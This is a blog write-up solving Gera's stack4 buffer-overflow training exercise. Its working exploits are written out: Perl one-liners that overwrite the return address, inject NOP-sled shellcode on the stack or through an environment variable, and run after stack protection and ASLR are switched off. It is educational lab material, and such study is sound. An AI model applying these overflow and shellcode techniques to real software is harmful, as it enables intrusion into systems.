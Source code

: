 Gera's Warming Up on Stack #4 - Solutions
==========================================
date: 04/Jan/2013
summary: Solutions for Gera's Warming up on Stack #4 program.
tags: exploit, ctf

## Introduction

Following is the part 4 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by [Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte) at his [Insecure Programming](http://community.corest.com/%7Egera/InsecureProgramming/) by example page.

This post follows the [Gera's Warming Up on Stack #3 - Solutions](https://7h3ram.github.io/posts/20130103_geras-wuos-stack3-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) program:

```c
/* stack4.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x000a0d00)
        printf("you win!\n");
}
```

The above program too accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it print the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1. Since it is defined prior to buf, the `cookie` would be placed at a higher memory address on the program stack, just below the saved registers from the function prologue
2. The `buf` character array would be at an offset of at least `80B` from `cookie`
3. The `gets` call would accept unbounded user-input within `buf` array and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message printed:

- Solution #1: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`
- Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address
- Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Unlike earlier programs, where Solution #1 suggested overflowing the character array to overwrite `cookie` with desired value, [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) coud not be exploited in that manner. This is beacuse the `cookie` has been initialized with `0x000a0d00` and if we inject this string, the newline character (`0x0a`) will cause the `gets` internal read to stop processing further characters, thereby breaking our exploit. As such we won't be using this technqiue but rather use alternate methods.

Here's a brief description of the test system:

```
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

## Solutions
### Solution #1: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`

Here's the GCC commandline to prepare [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) for this solution:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack4 stack4.c
stack4.c: In function ‘main’:
stack4.c:9: warning: incompatible implicit declaration of built-in function ‘printf’
stack4.c:9: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack4.c:9: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccxoPw3D.o: In function `main':
stack4.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

We need to have a look at the assembly of [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) and find out the location of the `printf` function which displays the `you win!` message:

```c-objdump
# objdump -d -M intel stack4 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 &lt;printf@plt&gt;
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 &lt;gets@plt&gt;
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 00 0d 0a 00          cmp    eax,0xa0d00
 8048477:   75 0c                   jne    8048485 &lt;main+0x41&gt;
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 &lt;puts@plt&gt;
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be `0x8048479`. Let's try exploiting:

```
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack4
buf: bfee4144 cookie: bfee4194
you win!
Segmentation fault
```

### Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address

Let's first recompile [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack4 stack4.c 2>/dev/null ; readelf -l stack4 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Let's go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack4
buf: bffff4c4 cookie: bffff514
you win!#
```

### Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var overwrite EIP with its address

Lets get straight to the exploitation:

```
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack4
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack4
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) program through three different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

## Conclusion

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
